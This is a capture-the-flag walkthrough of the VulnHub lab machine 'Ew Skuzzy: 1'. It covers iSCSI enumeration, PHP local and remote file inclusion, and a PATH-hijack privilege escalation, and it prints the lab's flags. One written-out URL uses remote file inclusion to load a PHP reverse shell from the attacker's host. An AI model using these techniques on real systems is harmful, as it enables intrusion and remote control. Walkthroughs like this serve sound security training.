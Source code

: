 ```yaml
---
layout: post
title:  "Ew Skuzzy: 1"
excerpt: CTF by @vortexau
tags: [vulnhub, ctf, walkthrough]
---
```


# Ew Skuzzy: 1

## Goal
flags
uid=0(root) gid=0(root) groups=0(root)

## Download
[https://www.vulnhub.com/entry/ew_skuzzy-1,184/](https://www.vulnhub.com/entry/ew_skuzzy-1,184/)

## Walkthrough
Initial nmap shows ssh on 22, web on 80, and iscsi on 3260
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-nmap-002.png)
<br><br>

Looking at the website we get a hint to scan the website using dirbuster
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-home-001.png)
<br><br>

dirb results
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-dirb-003.png)
<br><br>
*snippet of dirb results

All of the dirb results were junk except the last long URL
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-dirb-004.png)
<br><br>

Looking at the page, oh hello Lionel
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-hello-005.png)
<br><br>

Let's look at the page source and there is a long commented string (actually strings)
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-hellosource-006.png)
<br><br>

Base64 decode and Lionel trolled us
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-hellobase64-007.png)
<br><br>

With nothing else, we go back to see what we can find from the open iscsi port on 3260

Wait, ew skuzzy...iscsi....oh I get it :)

Google is always your friend, which yielded this helpful page
https://www.pentestpartners.com/blog/an-interesting-route-to-domain-admin-iscsi/

After installing iscsi tools I'm able to discover and connect to the target

iscsiadm -m node -p 192.168.0.130 -l iqn.2017-02.local.skuzzy:storage.sys0
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-iscsi-008.png)
<br><br>

fdisk reveals a new disk available at /dev/sdb
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-fdisk-009.png)
<br><br>

First we create the folder to mount to /mnt/skuzzy and then we mount and list the folder contents.  Look at that, flag1 is revealed
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-flag1-010.png)
<br><br>
flag1{c0abc15976b98a478150c900ebb0c86f0327f4dd}

Looking back at the mounted disk contents we see what appears to be another mountable disk called bobsdisk.dsk. Creating the folder, mounting, and listing we find an email file ToAlice.eml and an encrypted file ToAlice.csv.enc
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-bobsdisk-011.png)
<br><br>

Looking at the ToAlice.eml, there's a lot of useful information and some misleading in my opinion about how to decrypt the ToAlice.csv.enc file.  Also flag2 is revealed :)
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-flag2-012.png)
<br><br>
flag2{054738a5066ff56e0a4fc9eda6418478d23d3a7f}

So to decrypt the ToAlice.csv.enc file the email gives you everything you need including the password.  It hints that you need to use RockYou, but the password is right there and with that flag3 is revealed and more URLs

openssl enc -d -aes256 -in /mnt/bob/ToAlice.csv.enc -out /mnt/bob/ToAlice.csv -k supercalifragilisticoespialidoso
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-flag3-013.png)
<br><br>

flag3{2cce194f49c6e423967b7f72316f48c5caf46e84}

Now back to the webs and the URLs we found. First one has some sweet scrolling marquee
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-marquee-014.png)
<br><br>

Source code reveals more long commented strings
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-marqueesource-015.png)
<br><br>


Base64 of strings reveal a Seinfeld troll :P
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-marqueebase64-016.png)
<br><br>


Next URL looks more interesting and states in the title we're on the right track
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-2ndurl-017.png)
<br><br>

Looking at the links, first three are nothing of importance 

welcome.php
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-2ndurl-018.png)
<br><br>

flag.php
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-2ndurl-019.png)
<br><br>

party.php also includes link out to http://cultofthepartyparrot.com
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-2ndurl-020.png)
<br><br>

The last link reader.php has a new link called Load Feed. When clicked it actually calls out to a file located on the local file system named data.txt
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-2ndurl-021.png)
<br><br>

http://192.168.0.130/c2444910794e037ebd8aaf257178c90b/?p=reader&url=http://127.0.0.1/c2444910794e037ebd8aaf257178c90b/data.txt
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-2ndurl-022.png)
<br><br>

From here it looks like we might be able to do some LFI, so back to Google and we find this helpful site for a reminder :) https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/

Giving it a try on the data.txt file and we're giving a long string
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-phplfi-023.png)
<br><br>

Base64 on the string reveals the source code and it seems that normal php tags use#php## instead
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-database64-024.png)
<br><br>

With that I started checking all the .php files associated with the links and flag.php revealed flag4 also told that we'll need it later for shell access
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-flag4-025.png)
<br><br>
flag4{4e44db0f1edc3c361dbf54eaf4df40352db91f8b}

Base64 of reader.php was the entire source code, but hints that we need to provide a key
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-reader-026.png)
<br><br>
*snippet of reader.php

Trying RFI to Kali and told that we need a key for authentication 

http://192.168.0.130/c2444910794e037ebd8aaf257178c90b/?p=reader&url=http://192.168.0.131
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-keyneeded-027.png)
<br><br>

Before anything I prep the php reverse shell on Kali, but making sure that I replace the starting and ending php syntax to#php##
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-phpreverse-028.png)
<br><br>

Using flag4 as the key and calling our php reverse shell we now have a limited reverse shell :)

http://192.168.0.130/c2444910794e037ebd8aaf257178c90b/?p=reader&key=flag4{4e44db0f1edc3c361dbf54eaf4df40352db91f8b}&url=http://192.168.0.131/bzyo.php
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-reverseshell-029.png)
<br><br>

Privilege escalation took me some time as I was stuck on finding something with iscsi.  After going through the go to privilege escalation guide, the file alicebackup stood out as the other key files included alice in the name
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-suid-030.png)
<br><br>

Looking closer at the file it's executable so I run it and it runs the command /usr/bin/id and attempts an ssh connection
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-alicebackup-031.png)
<br><br>

Spent some time looking at HOSTALIASES, but that obviously didn't pan out so I took a step back...

I know that alicebackup runs id utility after executed as it prints out that root is running the program. However it's probably not using a full path and relative instead
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-pathid-032.png)
<br><br>

Let's copy /bin/sh to /tmp folder and rename it id and then add /tmp to the PATH
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-newid-033.png)
<br><br>

Running alicebackup now triggers id utility at /tmp folder, but instead of giving the user it spawns a root shell and flag5 is revealed in the root folder :)
<br>![alt text](../vulnhub/Ew_Skuzzy_1/skuzzy-flag5-34.png)
<br><br>
flag5{42273509a79da5bf49f9d40a10c512dd96d89f6a}
